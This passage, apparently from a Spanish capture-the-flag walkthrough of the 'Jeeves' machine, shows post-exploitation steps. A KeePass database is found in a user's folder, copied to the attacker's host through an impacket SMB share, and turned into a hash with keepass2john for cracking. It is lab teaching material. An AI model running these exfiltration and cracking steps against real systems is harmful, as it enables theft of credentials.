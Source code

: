 Bueno..., vemos que tenemos asignado el permiso de "**SeImpersonatePrivilege**". Este permiso nos va a servir para mostrar la vía alternativa de escalada de privilegios. Por ahora vamos a ver el camino intencionado que tiene la máquina para la escalada de privilegios.

Enumeramos las capertas del usuario **_Kohsuke_** y vemos que tiene en el directorio **_Documents_** un archivo con extensión "**kdbx**", se trata de la base de datos local del gestor de contraseñas **Keepass**:

```bash
PS C:\Users\Kohsuke\Desktop> dir
Directory: C:\Users\Kohsuke\Documents

Mode                LastWriteTime         Length Name                                                                  
---- ------------- ------ ---- 
-a---- 9/18/2017   1:43 PM           2846 CEH.kdbx
```

La transferimos a nuestro equipo, en este caso vamos utilizar **impacket-smbserver** para la transferencia:

```bash
# impacket-smbserver smbFolder $(pwd)

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

En la máquina Jeeves:

```bash
PS C:\Users\Kohsuke\Desktop> copy CEH.kdbx \\10.10.14.34\smbFolder\CEH.kdbx
```

Una vez tenemos el archivo en nuestrá máquina, comprobamos de forma rápida que tipo de archivo es:

```bash
# file CEH.kdbx 
CEH.kdbx: Keepass password database 2.x KDBX
```

Abrimos el archivo **CEH.kdbx** con **KeepassXC**:

![](body/1c4dc3c947fcfc0d4c9636f47dea6bca698a28d8.png)

Como vemos, necesitaremos la contraseña maestra que nos permita visualizar los objetos que contiene. Para ello vamos a hacer uso de **JOHN.**

Primero utilizaremos **keepass2john** para obtener el hash del archivo:

```bash
keepass2john CEH.kdbx > hash_keepass | cat
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```
